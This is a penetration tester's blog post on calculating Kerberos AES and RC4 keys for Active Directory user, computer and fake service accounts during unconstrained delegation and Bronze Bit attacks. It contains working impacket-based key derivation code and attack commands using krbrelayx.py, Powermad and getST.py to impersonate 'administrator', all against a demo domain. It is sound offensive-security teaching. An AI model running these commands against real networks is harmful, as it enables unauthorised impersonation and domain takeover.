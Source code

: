 ```yaml
---
layout: post
title: "A Note on Calculating Kerberos Keys for AD Accounts"
date: 2021-05-21 23:00:00 +0300
author: snovvcrash
tags: [internal-pentest, active-directory, kerberos, krbrelayx, python, impacket, bronze-bit]
---
```


A short memo on how to properly calculate Kerberos keys for different types of Active Directory accounts in context of decrypting TGS tickets during delegation attacks.

<!--cut-->

![banner.png](/assets/images/calculating-kerberos-keys/banner.png)
{:.center-image}

In order to successfully decrypt service TGS we must calculate its Kerberos key first. To do this we should obtain account's password and form the salt:

* For a user/service account the salt is built as uppercase Kerberos realm name + case sensitive username.
* For a computer account the salt is built as uppercase Kerberos realm name + the word `host` + lowercase FQDN hostname.

Let's say the domain name (Kerberos realm) is `megacorp.local`, then for user `Bob_Adm` the salt will be `MEGACORP.LOCALBob_Adm`, and for computer `SRV01` the salt will be `MEGACORP.LOCALhostsrv01.megacorp.local`.

Based on the "Relaying" Kerberos attack [toolkit](https://github.com/dirkjanm/krbrelayx) (by [@dirkjanm](https://twitter.com/_dirkjan)) the keys can be calculated with the following Python code using [impacket](https://github.com/SecureAuthCorp/impacket):

```python
#!/usr/bin/env python3

from binascii import unhexlify, hexlify

from impacket.krb5 import constants
from impacket.krb5.crypto import Key, string_to_key
from Cryptodome.Hash import MD4

allciphers = {
	'rc4_hmac_nt': int(constants.EncryptionTypes.rc4_hmac.value),
	'aes128_hmac': int(constants.EncryptionTypes.aes128_cts_hmac_sha1_96.value),
	'aes256_hmac': int(constants.EncryptionTypes.aes256_cts_hmac_sha1_96.value)
}


def printKerberosKeys(password, salt):
	for name, cipher in allciphers.items():
		if cipher == 23:
			md4 = MD4.new()
			md4.update(password)
			key = Key(cipher, md4.digest())
		else:
			fixedPassword = password.decode('utf-16-le', 'replace').encode('utf-8', 'replace')
			key = string_to_key(cipher, fixedPassword, salt)

		print(f'    * {name}: {hexlify(key.contents).decode("utf-8")}')


def printMachineKerberosKeys(domain, hostname, hexpassword):
	salt = b'%shost%s.%s' % (domain.upper().encode('utf-8'), hostname.lower().encode('utf-8'), domain.lower().encode('utf-8'))
	rawpassword = unhexlify(hexpassword)
	print(f'{domain.upper()}\\{hostname.upper()}$')
	print(f'    * Salt: {salt.decode("utf-8")}')
	printKerberosKeys(rawpassword, salt)


def printUserKerberosKeys(domain, username, rawpassword):
	salt = b'%s%s' % (domain.upper().encode('utf-8'), username.encode('utf-8'))
	rawpassword = rawpassword.encode('utf-16-le')
	print(f'{domain.upper()}\\{username}')
	print(f'    * Salt: {salt.decode("utf-8")}')
	printKerberosKeys(rawpassword, salt)
```

When performing the ["Relaying" Kerberos attack](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/) against an unconstrained delegation **computer** account, the adversary will use krbrelayx.py as follows:

```console
# Calculate the AES key automatically
~$ krbrelayx.py --krbpass 'Passw0rd!' --krbsalt 'MEGACORP.LOCALhostsrv01.megacorp.local'
# Pre-calculate the AES key and pass it as an argument
~$ krbrelayx.py -aesKey 4e70fdfa30728cb202aa6b169627078546a3a30ddf0e655f493ae372dd30fa57
```

```python
printMachineKerberosKeys(
	domain='megacorp.local',
	hostname='SRV01',
	hexpassword='16ef05840eedc3af56b2cd75bba16ace855271729f0265d6638bc0a5097b095e8abd316f9f89da445fa16907f04cde46d847291060185437a67d10547cdebbea138846fe019a63c3e91cf1ed416f5b6f05cdcc03b772c5d68a6d71c05130c7e3df1c4760fe72b82fb3441a1ca43d5873028b3bb671a51f4ceada3bf063c8742bd24587c66c1ad3e0a1e34b566b0917209d54345bc0ccdb81a0cfecedad38fc2fb98990f3b45f70dd18e64928fbb9c41c5f284b5748669cf3369146626cf0aafaf43f24d0ac927ff499e0f5dc06c1be1d4d8ff5006c581b0d2e0b188156c680fec864d5215b2d17864096b4d0a59e705d'
)

"""
MEGACORP.LOCAL\SRV01$
    * Salt: MEGACORP.LOCALhostsrv01.megacorp.local
    * rc4_hmac_nt: 1b8112a5c2eb2c45ba045efdca7c4848
    * aes128_hmac: 7c91cca5c6a7c1f961d977a7f3332273
    * aes256_hmac: 4e70fdfa30728cb202aa6b169627078546a3a30ddf0e655f493ae372dd30fa57
"""
```

When performing this attack against an unconstrained delegation **user** account, the adversary does not need to calculate the salt because the ticket it encrypted with RC4 by default (not salted NT hash used as key):

```console
~$ krbrelayx.py -hashes :fc525c9683e8fe067095ba2ddc971889
```

```python
printUserKerberosKeys(
	domain='megacorp.local',
	username='Bob_Adm',
	rawpassword='Passw0rd!'
)

"""
MEGACORP.LOCAL\Bob_Adm
    * Salt: MEGACORP.LOCALBob_Adm
    * rc4_hmac_nt: fc525c9683e8fe067095ba2ddc971889
    * aes128_hmac: 79505a4518150188087e722dec3b2567
    * aes256_hmac: b628f4549bd8c9e18b9573075a2db50a08aff7982be3185923af87ec2bffddc5
"""
```

On the other hand, when performing the [Bronze Bit attack](https://www.netspi.com/blog/technical/network-penetration-testing/machineaccountquota-is-useful-sometimes/) (by [@jakekarnes42](https://github.com/jakekarnes42)), the adversary leverages a fake service (see [Powermad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)) account to request the ticket which brings back AES encryption with salt (PBKDF2 from salted password used as key). Despite the fact that Powermad's function for adding fake accounts is called `New-MachineAccount`, it's actually a **service** account and the Kerberos keys should be calculated with `printUserKerberosKeys` function in terms of this note:

```console
PS > New-MachineAccount -MachineAccount fakemachine -Password $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) -Verbose
~$ getST.py -spn ldap/DC01.megacorp.local -impersonate 'administrator' megacorp.local/fakemachine -hashes :fc525c9683e8fe067095ba2ddc971889 -aesKey 211e8e3134ed797b0a2bf6c36d1a966b3bed2b24e4aaa9eceed23d0abf659e98 -force-forwardable
```

```python
printUserKerberosKeys(
	domain='megacorp.local',
	username='fakemachine',
	rawpassword='Passw0rd!'
)

"""
MEGACORP.LOCAL\fakemachine
    * Salt: MEGACORP.LOCALfakemachine
    * rc4_hmac_nt: fc525c9683e8fe067095ba2ddc971889
    * aes128_hmac: 3a2a5d368927e4ac0948c76b2e5e998b
    * aes256_hmac: de933a0f9cabde83ba6ab195af8ecb8af982b50992606caab74568cf47ca4cd3
"""
```

The same calculation can be done with [Get-KerberosAESKey.ps1](https://gist.github.com/Kevin-Robertson/9e0f8bfdbf4c1e694e6ff4197f0a4372), [DSInternals](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/ConvertTo-KerberosKey.md#convertto-kerberoskey) or [Mimikatz](https://github.com/gentilkiwi/mimikatz) `kerberos::hash` function.
